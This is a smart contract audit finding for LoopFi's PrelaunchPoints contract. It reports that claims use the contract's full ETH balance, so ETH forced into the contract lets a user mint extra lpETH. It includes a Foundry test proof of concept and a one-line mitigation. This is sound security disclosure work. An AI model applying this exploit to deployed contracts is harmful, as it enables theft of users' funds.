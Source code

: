 # LoopFi - 05.2024 - yovchev_yoan's finiding

### [H-1] `PrelaunchPoints::lock, lockFor` allows a users to lock s small amount of LRT token and then force ether into the contract claiming as much lpETH as they want, removing the risk of locking a lot of tokens and braking the 2nd invariant

**Description:**

In the `Prelaunchpoint` the functions `lock` and `lockFor` allow users to lock LRTs or WETH into the contract. After the owners calls `setLoopAddresses` and converts all the ETH, users are able to call the `claim` and `claimAndStake` functions. A user can force ETH into the smart contract and right after call the `claim` function with the LRT Token with a small percentage. Because `claimedAmount` is set to `address(this).balance` this will also get the forced ETH, allowing users to remove the risk of locking a large amount and rather lock a small amount and then force ether to get the desired lpETH.

**Impact:**

1. Allows users to remove the risk of locking a large amount of tokens.
2. Allows users to mint how much ever lpETH they want, as long as they have the capital and a small locked amount of LRT Token.
3. This breaks the 2nd invariant - `Deposits are active up to the lpETH contract and lpETHVault contract are set`

**Proof of Concept:**

1. The user locks a desired amount of an LRT Token
2. Owner set the loop addresses and the 7 days to withdraw pass
3. Owner converts all the ETH, which allows user to claim, claim and stake
4. The user forces ETH into the contract
5. The user calls the `claim` function and gets the lpETH for the forced ETH

Paste this into `PrelaunchPoints.t.sol`

```javascript
function testDepositAndStakeAfterTheClaimStartDate() public {
        uint256 lockAmount = 10;
        address userOne = vm.addr(1);

        lrt.mint(userOne, lockAmount);

        vm.startPrank(userOne);
        lrt.approve(address(prelaunchPoints), lockAmount);
        prelaunchPoints.lock(address(lrt), lockAmount, referral);
        vm.stopPrank();

        // Set Loop Contracts and Convert to lpETH
        prelaunchPoints.setLoopAddresses(address(lpETH), address(lpETHVault));
        vm.warp(prelaunchPoints.loopActivation() + prelaunchPoints.TIMELOCK() + 1);
        prelaunchPoints.convertAllETH();

        vm.warp(prelaunchPoints.startClaimDate() + 1);

        bytes memory data = abi.encodeWithSelector(0x415565b0, address(lrt), ETH, ((lockAmount * 1) / 100));

        vm.deal(userOne, 10);
        vm.prank(userOne);
        (bool success,) = address(prelaunchPoints).call{value: 10}("");
        if (!success) revert("Not Successful");

        uint256 temp = lpETH.balanceOf(address(userOne));
        console.log(temp);

        vm.prank(userOne);
        prelaunchPoints.claim(address(lrt), 1, PrelaunchPoints.Exchange.TransformERC20, data);

        temp = lpETH.balanceOf(address(userOne));
        console.log(temp);
    }
```

**Tools Used**

Manual Review

**Recommended Mitigation:**

1. If the `receive` function is called revert
